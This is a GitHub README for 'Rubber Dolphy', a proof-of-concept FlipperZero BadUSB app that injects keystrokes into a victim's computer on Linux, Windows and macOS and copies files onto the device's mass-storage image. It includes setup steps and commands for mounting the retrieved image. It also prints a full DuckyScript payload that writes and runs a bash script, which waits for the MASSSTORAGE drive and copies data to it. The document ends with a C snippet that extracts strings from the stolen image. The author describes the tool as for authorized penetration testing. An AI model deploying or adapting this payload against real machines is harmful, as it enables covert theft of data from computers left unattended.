

<div align="center">

:broom: CutreLabs presents :broom:

Rubber Dolphy

A PoC about BadUSB for FlipperZero with exfiltration capabilities on device via mass storage
</div>

# Rubber Dolphy

The idea is to have a way to copy some data into FlipperZero when using it as **BadUsb** device, to perform data exfiltration. 

Right now the project it's in a early code stage (it's just a hack), I tested it on a **Arch Linux** and on a **Windows 11** computer and on a Mac OS Ventura 13.7.8 with an Intel processor also wondering how it works on a new ARM processor.

I have some ideas that I would like to try in order to improve the whole thing and push features to have a more useful and versatile FlipperZero BadUSB device. If I feel that the project has a good welcome, people try it and give support at least with :star: I will ponder continue with this ideas.

For now image for mass storage capabilities has 4.2 MB and type FAT (12-bit version)

## Demo

### Linux


### Windows 11


### MacOS 


## Install and Run

Clone this repo somewhere on your machine. 

### Flipper Zero preparation

- At FlipperZero create *rubber_dolphy* folder on *"SD Card/apps_data/"*
- At FlipperZero create *msi* folder on *"SD Card/apps_data/rubber_dolphy"*
- Copy *rubber-dolphy/mass_storage_img/rdbdsbms.img* from this repo to *"SD Card/apps_data/rubber_dolphy/msi/"* on Flipper Zero

### Compile and launch it on Flipper Zero

Copy the *rubber_dolphy_app* folder into *applications_user* folder on flipperZero's firmware.

On the *flipperzero-firmware* folder:

`$ ./fbt launch APPSRC=rubber_dolphy`

Rubber-Dolpy FAP will be under *Apps/USB/*

### Upload the FAP

Alternatively to compile and lauch the app, after **completing step FlipperZero preparation**, you can upload the latest *rubber_dolphy.fap* from [releases](https://github.com/carvilsi/rubber-dolphy/releases) to *"SD Card/apps/USB/"* folder on FlipperZero. 

Do not forget to check the sha256sum ;)

### Retrieve Exfiltrated Data

#### Linux

- From FlipperZero copy *"SD Card/apps_data/rubber_dolphy/msi/rdbdsbms.img"* to your machine.
- Mount the image.
- Copy the exlitrated file.
- Umount the image.

Example:

Once with the rdbdsbms.img on my */tmp* folder.

```bash
cd /tmp
mkdir exfiltrated-data-from-flipper
sudo mount -o loop rdbdsbms.img exfiltrated-data-from-flipper/
cat exfiltrated-data-from-flipper/my_data.txt
sudo umount exfiltrated-data-from-flipper/
```

### Ducky Scripts

Under [ducky_scripts_examples folder](https://github.com/carvilsi/rubber-dolphy/tree/main/ducky_scripts_examples) in this repo you'll find examples for Linux, Windows and MacOS. And another simple DuckyScript called *mount_mass_storage_img* to access the mass storage on your laptop and get the copied data.

For now **Rubber Dolphy** still using the oficial *BadUSB* FlipperZero app assests folder, to deal with *layouts* and to select the *duckyscript* to run, therefore you must upload your duckyscripts to *SD Card/badusb/* folder.

#### How it works

For now the exfiltration from the victim's machine requires manual action on FlipperZero to perform the copy of the collected data. This is one of the points that I would like improve, trying to skip clicking when the DuckyScript finish.

A new Command called **STORAGE** has been added to the Command Set of [BadUSB File Format](https://developer.flipper.net/flipperzero/doxygen/badusb_file_format.html) in order to allow mass storage mode on FlipperZero once the DuckyScript has been finished. Then on the BadUSB GUI a button called *Exflt* appears. 

<div align="center">
  <p>
    
  </p>
</div>

When clicking down, FlipperZero will exits BasdUSB mode and mounts a mass storage, the expected name of the unit on the threated machine is *MASSSTORAGE*.

<div align="center">
  <p>
    
  </p>
</div>


The DuckyScript copies and runs a script that waits until this unit is available on the victims machine, and then copies the data to exfiltrate.

Once the file was copied to FlipperZero, **click Back button** to exit from *mass storage* mode and change to *basusb* mode. Another DuckyScript could be run again. There is no way to know that the data was already copied into FlipperZero; it's worth to add a feedback to the end of copying process on the DuckyScript. 

Here a DuckyScript example of the above described mechanism (bash) from [Linux Example](https://github.com/carvilsi/rubber-dolphy/blob/main/ducky_scripts_examples/exfiltration_linux_poc.txt).

```bash
REM =================== Exfiltration PoC ===================

REM Command to tell Flipper that will be exfiltration
REM Could be place at the begining of the file (after the ID if is there)
STORAGE

REM Create a bash script to do the exfiltration
STRINGLN cat > exfiltration.sh << EOF

STRINGLN #!/bin/bash
STRINGLN # Create a function to get the Mass Storage path
STRINGLN gms(){ ms=\$(df|awk '/MASSSTORAGE/{print \$6}');}

STRINGLN # Repeat until get the Mass Storage path 
STRINGLN until [ \`echo \$ms 2>/dev/null\` ];do gms;done;

REM Copy the generated file on the Mass Storage
STRINGLN cp my_data.txt \$ms

REM Feedback on finish copying
STRINGLN echo done :\)

STRINGLN EOF

REM Execute the script
STRINGLN sh exfiltration.sh

REM =======================================================
```

A similar mechanism can be check on [Windows 11 Example](https://github.com/carvilsi/rubber-dolphy/blob/main/ducky_scripts_examples/exfiltration_win11_poc.txt) and for [MacOS](https://github.com/carvilsi/rubber-dolphy/blob/main/ducky_scripts_examples/exfiltration_macos_poc.txt)

## Comments

The inspiration idea for this PoC came from this [FlipperZero Issue](https://github.com/flipperdevices/flipperzero-firmware/issues/1040)

I combined the code of [FlipperZero BadUSB](https://github.com/flipperdevices/flipperzero-firmware/tree/dev/applications/main/bad_usb) and the one of [flipperzero-good-faps mass_storage app](https://github.com/flipperdevices/flipperzero-good-faps/tree/dev/mass_storage)

---

⚠️ ADVISORY: This FlipperZero APP should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own computers and/or with the computer owner's permission.

---

Feedback from usage and contributions are very welcome.
Also if you like it, please leave a :star: I would appreciate it ;)

Hack The Planet! 

---

### WIP Autodetect OS



```c
/**
 * @file example_apps_data.c
 * @brief Application data example.
 */
#include <furi.h>
#include <storage/storage.h>
#include <stdbool.h>
#include <stdint.h>

#define STRINGS_BUF_SIZE 128
#define READ_BUF_SIZE    512

// Define log tag
#define TAG "ExampleAppsData"

typedef void (*StringsCallback)(const char* str, void* ctx);

bool extract_strings(
    File* file,
    size_t min_len,
    StringsCallback callback,
    void* ctx) {

    uint8_t read_buf[READ_BUF_SIZE];
    char str_buf[STRINGS_BUF_SIZE];
    size_t str_len = 0;

    while(true) {
        size_t bytes = storage_file_read(file, read_buf, sizeof(read_buf));

        if(bytes == 0) {
            break;
        }

        for(size_t i = 0; i < bytes; i++) {
            uint8_t c = read_buf[i];

             if((c >= 32 && c <= 126) || c == '\t') {

                if(str_len < (sizeof(str_buf) - 1)) {
                    str_buf[str_len++] = c;
                }
            } else {
                if(str_len >= min_len) {
                    str_buf[str_len] = '\0';
                    callback(str_buf, ctx);
                }

                str_len = 0;
            }
        }
    }

    /* Flush final string if file ended with printable chars */
    if(str_len >= min_len) {
        str_buf[str_len] = '\0';
        callback(str_buf, ctx);
    }

    return storage_file_eof(file);
}

static void print_string(const char* str, void* ctx) {
        UNUSED(ctx);
        FURI_LOG_I(TAG, "%s", str);
}

// Application entry point
int32_t example_apps_data_main(void* p) {
    // Mark argument as unused
    UNUSED(p);

    // Open storage
    Storage* storage = furi_record_open(RECORD_STORAGE);

    // Allocate file
    File* file = storage_file_alloc(storage);

    // Let's try to read
    if(storage_file_open(file, "/ext/apps_data/rubber_dolphy/msi/rdbdsbms.img", FSAM_READ, FSOM_OPEN_EXISTING)) {
        extract_strings(file, 4, print_string, NULL);

        storage_file_close(file);
    } else {
        FURI_LOG_E(TAG, "Failed to open file");
    }

    // Deallocate file
    storage_file_free(file);

    // Close storage
    furi_record_close(RECORD_STORAGE);

    return 0;
}
```
